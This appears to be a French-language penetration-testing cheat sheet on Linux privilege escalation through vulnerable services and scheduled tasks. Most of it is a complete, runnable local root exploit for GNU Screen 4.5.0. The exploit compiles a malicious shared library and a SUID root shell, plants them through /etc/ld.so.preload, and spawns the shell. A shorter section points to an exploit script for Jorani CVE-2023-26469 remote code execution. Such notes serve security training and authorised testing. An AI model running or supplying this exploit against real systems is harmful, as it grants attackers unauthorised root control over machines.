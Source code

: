 # 04-Escalade Basée sur les Services et Tâches Planifiées

### Services Applicatifs Vulnérables
> Exploiter des vulnérabilités connues ou des mauvaises configurations dans les services réseau ou locaux.

#### Screen 4.5.0
> Vulnérabilité d'escalade de privilèges locale dans Screen version 4.5.0.
```bash
# Vérifier la version de screen
screen --version

# Si Screen 4.5.0 est installé et SUID root :
# Code d'exploitation (exemple) :
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload"); // Nettoyage
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
#include <unistd.h> // Pour setuid, setgid
#include <stdlib.h> // Pour execvp
int main(void){
    setuid(0);
    setgid(0);
    char *args[] = {"/bin/sh", "-p", NULL}; // Utiliser sh -p pour conserver les privilèges
    execvp("/bin/sh", args);
    return 0; // En cas d'échec d'execvp
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
# Exécution de l'exploit
cd /etc
screen -D -m -L ld.so.preload echo -ne "\x0a/tmp/libhax.so" # \x0a est un newline
# Attendre un court instant que ld.so.preload soit écrit
screen -ls # Déclenche le chargement de la librairie via SUID screen
/tmp/rootshell
```

#### Jorani v1 (CVE-2023-26469)
> Exploitation d'une vulnérabilité spécifique (RCE) dans l'application Jorani.
```bash
# Exemple (Shiftdel) :
# Utiliser un script d'exploitation pour CVE-2023-26469 pour obtenir RCE.
# La nature exacte du script d'exploitation dépend de la CVE.
# python exploit_jorani_cve-2023-26469.py <target_ip> <command>
# Si le service Jorani tourne en tant que root ou un utilisateur privilégié, cela peut mener à une escalade.
```
